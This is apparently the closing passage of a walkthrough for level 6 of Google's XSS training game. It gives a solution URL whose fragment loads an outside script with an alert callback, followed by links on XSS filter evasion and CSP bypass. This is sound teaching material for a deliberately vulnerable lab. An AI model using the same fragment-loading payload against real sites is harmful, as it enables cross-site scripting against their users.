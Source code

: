 So a possible solution will look like:
```
https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert
```
## Resources

[XSS Filter Evasion Cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

[Location hash Property](https://www.w3schools.com/JSREF/prop_loc_hash.asp)

[The 'javascript' resource identifier scheme](https://tools.ietf.org/html/draft-hoehrmann-javascript-scheme-00)

[A Novel CSP Bypass Using data: URI](https://www.nccgroup.com/us/about-us/newsroom-and-events/blog/2019/april/a-novel-csp-bypass-using-data-uri/)

[Why are URLs case-sensitive?](https://webmasters.stackexchange.com/a/90378)

[Uniform Resource Identifier (URI): Generic Syntax](https://tools.ietf.org/html/rfc3986)